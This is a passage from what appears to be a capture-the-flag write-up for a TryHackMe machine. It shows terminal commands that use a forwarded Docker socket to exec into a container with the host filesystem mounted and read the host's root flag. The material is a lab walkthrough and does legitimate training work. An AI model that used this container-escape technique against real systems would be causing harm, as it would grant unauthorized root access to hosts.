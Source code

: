 It starts but I'm not dropped into a shell, I'm dropped into some kind of logging thing. Opening up another terminal, I tell the docker binary to point to the forwarded socket and get a shell on the container we just started:

```
kali@kali:~$ docker ps
CONTAINER ID   IMAGE                  COMMAND                  CREATED              STATUS              PORTS                                          NAMES
c679d31ea25c   sweettoothinc          "/bin/bash -c 'chmod…"   About a minute ago   Up About a minute   8086/tcp                                       serene_leakey
575d68b41bfa   sweettoothinc:latest   "/bin/bash -c 'chmod…"   48 minutes ago       Up About an hour    0.0.0.0:8086->8086/tcp, 0.0.0.0:2222->22/tcp   sweettoothinc
kali@kali:~$ docker exec -it c679d31ea25c /bin/bash
root@c679d31ea25c:/# 
```

And we can grab the root flag on the host machine!

```
root@c679d31ea25c:/# cd /mnt
root@c679d31ea25c:/mnt# ls
bin   dev  home        initrd.img.old  lib64       media  opt   root  sbin  sys  usr  vmlinuz
boot  etc  initrd.img  lib             lost+found  mnt    proc  run   srv   tmp  var  vmlinuz.old
root@c679d31ea25c:/mnt# cat /mnt/root/root.txt
THM{REDACTED}
root@c679d31ea25c:/mnt# 
```


